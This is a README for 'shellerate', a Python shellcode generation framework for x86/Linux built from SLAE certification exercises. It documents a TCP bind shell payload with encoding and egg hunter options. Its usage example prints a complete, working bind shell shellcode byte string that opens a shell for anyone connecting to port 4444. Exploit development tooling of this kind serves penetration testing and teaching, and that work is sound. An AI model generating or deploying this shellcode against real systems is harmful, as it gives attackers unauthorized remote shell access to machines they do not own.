 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learned in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux

Of course other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

This shellcode will bind on a given port, waiting for clients and spawn a shell
on the incoming connection.

#### Platform

At the moment, this shellcode is available only for x86/Linux platform.

#### Features

| Feature | Supported |
|---------|-----------|
| Encoding | Yes |
| Crypter | No |
| Egg Hunter | Yes |

#### Usage

Basic usage:

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```

Usage with egg hunter

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.set_egg("\\x11\\x22\\x33\\x44")
b.generate()

print("Egg hunter: %s" % b.egg_hunter())
print("Shellcode: %s" % b.shellcode())
```
